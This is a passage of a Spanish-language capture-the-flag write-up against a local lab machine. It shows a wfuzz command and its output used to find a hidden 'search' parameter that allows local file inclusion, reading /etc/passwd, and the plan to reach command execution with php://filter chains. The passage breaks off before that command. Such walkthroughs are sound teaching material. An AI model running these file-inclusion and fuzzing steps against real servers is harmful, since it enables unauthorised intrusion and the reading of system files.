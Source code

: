 Como vemos hay un "secret.txt" que solo nos dice que hay un usuario llamado "lin", pero lo mas interesante es que todas las paginas estan hechas en *php*, y como sabemos, pueden ocultar parametros. Ahora comenzaremos a buscar parametros por el `index.php`, para hacerlo usaremos `wfuzz` de la siguiente manera:

```css
wfuzz --hl=13 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt "http://172.17.0.2/index.php?FUZZ=/etc/passwd"
```

```ruby
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://172.17.0.2/index.php?FUZZ=/etc/passwd
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                        
=====================================================================

000000027:   200        32 L     47 W       1257 Ch     "search" 
```

Como vemos nos ha encontrado que el parametro "search" permite un LFI.

Al poner `?search=/etc/passwd` en el "index.php" podemos confirmar que hay un usuario "lin" en el servidor. Normalmente *si el puerto 22 estuviera abierto* podriamos intentar leer la clave privada de el usuario "lin", pero como en este caso no esta abierto el ssh, por lo que tendremos que probar el [Wrapper php://filter](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md), si esto nos funciona significara que podremos ejecutar comandos en el sistema. Para confirmarlo solo pegamos uno en el parametro "search" y si nos da resultado significa que podremos ejecutar comandos.

![wrapper](./imagenes/wrapper.png)

Como vemos ha funcionado, entonces ahora podremos ejecutar comandos en el sistema usando el script [php_fileter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py) de la siguiente manera:
